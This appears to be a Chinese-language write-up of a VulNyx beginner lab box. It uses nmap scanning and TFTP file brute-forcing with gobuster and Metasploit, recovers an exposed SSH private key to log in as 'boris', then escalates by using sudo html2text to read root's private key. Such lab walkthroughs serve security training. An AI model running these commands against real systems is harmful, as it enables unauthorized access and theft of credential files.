

# 环境

来自[Vulny_Beginner](https://vulnyx.com/#Beginner)，利用tftp获取暴露的ssh密钥，泄露用户

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```


## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.43
sudo nmap -sU --top-ports 20 192.168.88.43  #udp扫描
```


## 服务详情

```bash
sudo nmap -sV -sC -p22,80 -O 192.168.88.43
```


## 目录扫描

```bash
dirb http://192.168.88.43
```

无结果

# udp

## 爆破tftp目录

扫描udp，发现开放69端口的TFTP服务

```bash
tftp 192.168.88.43  #尝试连接
get 1.txt  #一直等待说明没有开启69，说没找到验证开启了69
gobuster tftp -s 192.168.88.43 -w /usr/share/wordlists/metasploit/tftp.txt
get backup-config

#或者使用msf
search tftp brute
use 0
show options
set rhots 192.168.88.43
run
```


## ssh对私钥生成公钥

```bash
unzip backup-config
ssh-keygen -y -f id_rsa  #生成公钥，查看公钥结尾是否存在用户
cat sshd_config  #发现存在boris用户
ssh -i id_rsa boris@192.168.88.43
```


## 提权

通过html2text读取root的私钥

```bash
sudo /usr/bin/html2text /root/.ssh/id_rsa > rootid
chmod 600 rootid
ssh root@localhost -i rootid
```



